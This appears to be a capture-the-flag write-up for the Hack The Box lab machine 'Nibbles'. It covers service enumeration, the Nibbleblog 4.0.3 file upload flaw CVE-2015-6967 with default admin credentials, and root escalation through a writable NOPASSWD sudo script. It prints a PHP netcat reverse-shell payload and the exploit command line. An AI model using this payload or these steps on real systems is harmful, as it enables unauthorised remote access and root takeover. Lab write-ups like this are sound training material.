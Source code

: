 # HTB: Nibbles

## Engagement Overview

**Target:** Nibbles
**Box IP:** 10.10.10.75
**Local IP:** 10.10.14.7
**Date:** 07-20-2025

---

### Objectives

- Enumerate services to discover web applications and credentials.
- Exploit an arbitrary file upload vulnerability in Nibbleblog.
- Escalate privileges via misconfigured sudo permissions to obtain root access.

---

## Service Enumeration

### Nmap Results

```
nmap -sV -sC -A 10.10.10.75
```
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

- Web server on port 80 hosted a Nibbleblog CMS.
- Detected Nibbleblog version: **v4.0.3 Codename: Coffee** (2014-04-01)

### Gobuster Results

```
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 20
```
Key findings:
- `/admin.php` – Admin login page
- `/content/`, `/plugins/`, `/themes/`, `/languages/` – Exposed directories
- `/README`, `/LICENSE.txt`, `/COPYRIGHT.txt` – Info disclosure
- `/install.php`, `/update.php` – Should have been removed after setup

---

## Methodologies

### Initial Access – Arbitrary File Upload

**Vulnerability:**  
- CVE-2015-6967 – Authenticated file upload vulnerability in Nibbleblog 4.0.3  
  [https://www.cve.org/CVERecord?id=CVE-2015-6967](https://www.cve.org/CVERecord?id=CVE-2015-6967)

**Credentials:**
```
Username: admin
Password: nibbles
```

**Payload:**
```php
<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.7 5454 > /tmp/f"); ?>
```

**Exploit:**
```bash
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
```

**Result:**
- Reverse shell obtained on port 5454 as web user.

---

## Privilege Escalation

```bash
sudo -l
```

Output:
```
User nibbler may run the following command without password:
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Initial attempt to inject reverse shell into `monitor.sh` failed due to syntax issues.

**Working escalation method:**
```bash
echo "bash -i" > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

**Result:**
- Root shell obtained.
- Accessed `/root/root.txt`.

---

## House Cleaning

- No cleanup required; no persistence or destructive changes made.

---

## Post-Exploitation

### Credentials & Flags
- `user.txt`: `caafc6db3f2edcfadb67939c0bfc8be7`  
- `root.txt`: `3326a0f327a5b3466a5ca7016471485e`

---

## Tools Utilized

* `nmap`, `gobuster`, `netcat`
* `exploit.py`, `shell.php` (reverse shell payload)
* Python3, Bash

---

## Key Takeaways

* Old CMS versions often contain known exploits like CVE-2015-6967.
* Default credentials (`admin:nibbles`) still work — always try basic credential stuffing.
* Misconfigured `sudo` scripts can offer root access — even a writable `.sh` file is a goldmine.
* If a reverse shell payload fails, test simpler command injection like `bash -i` to reduce syntax errors.
